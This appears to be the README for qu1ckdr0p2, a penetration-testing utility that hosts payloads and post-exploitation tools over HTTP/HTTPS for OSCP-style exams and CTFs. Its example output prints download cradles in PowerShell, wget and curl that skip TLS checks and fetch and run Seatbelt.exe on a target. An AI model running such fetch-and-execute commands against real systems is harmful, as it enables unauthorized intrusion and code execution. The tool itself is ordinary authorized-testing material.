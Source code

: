 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing
#### Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```
#### Export as an alias if needed
```
echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc
```

```
echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc
```

## Usage
### Serv a single file located in your current working directory
```zsh
serv serve -f implant.bin --https 443
```
```zsh
serv serve -f file.example --http 8080
```

## Update and help
```zsh
  serv --help            
Usage: serv [OPTIONS] COMMAND [ARGS]...

  Welcome to qu1ckdr0p2 entry point.

Options:
  --debug  Enable debug mode.
  --help   Show this message and exit.

Commands:
  init   Perform updates.
  serve  Serve files.
```
```zsh
  serv serve --help
Usage: serv serve [OPTIONS]

  Serve files.

Options:
  -l, --list         List aliases
  -s, --search TEXT  Search query for aliases
  -u, --use INTEGER  Use an alias by a dynamic number
  -f, --file FILE    Serve a file
  --http INTEGER     Use HTTP with a custom port
  --https INTEGER    Use HTTPS with a custom port
  -h, --help         Show this message and exit.
```
```zsh
  serv init --help       
Usage: serv init [OPTIONS]

  Perform updates.

Options:
  --update            Check and download missing tools.
  --update-self       Update the tool using pip.
  --update-self-test  Used for dev testing, installs unstable build.
  --help              Show this message and exit.
```

```zsh
serv init --update
```
```zsh
serv init --update-self
```
### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search seatbelt
[→] Path: ~/.qu1ckdr0p2/windows/Seatbelt.exe
[→] Alias: seatbelt
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Alias: seatbelt_net40_any
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x64/Seatbelt.exe
[→] Alias: seatbelt_net40_x64
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x86/Seatbelt.exe
[→] Alias: seatbelt_net40_x86
[→] Use: 4

(...)

$ serv serve --search seatbelt -u 2
[→] Serving: ../../../.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Protocol: https
[→] IP address: 192.168.1.5
[→] Port: 443
[→] Interface: eth0
[→] Using cert: /home/byinarie/.qu1ckdr0p2/certs/cert.pem
[→] Using key: /home/byinarie/.qu1ckdr0p2/certs/key.pem
[→] CTRL+C to quit

[→] URL: https://192.168.1.5:443/Seatbelt.exe

[↓] csharp_ignore_tls:
Add-Type -TypeDefinition "using System.Net;using System.Security.Cryptography.X509Certificates;public class SSLValidator {public static void Ignore() {ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;}}" -Language CSharp; [SSLValidator]::Ignore(); $webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe');Start-Process 'c:\windows\temp\Seatbelt.exe'

[↓] wget_ignore_tls:
wget --no-check-certificate https://192.168.1.5:443/Seatbelt.exe -O /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] curl_ignore_tls:
curl -k https://192.168.1.5:443/Seatbelt.exe -o /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] powershell_ignore_tls:
$AllProtocols = [System.Net.SecurityProtocolType]'Ssl3,Tls,Tls11,Tls12'; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols; $WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe'); Start-Process 'c:\windows\temp\Seatbelt.exe'
```




## License

MIT

---

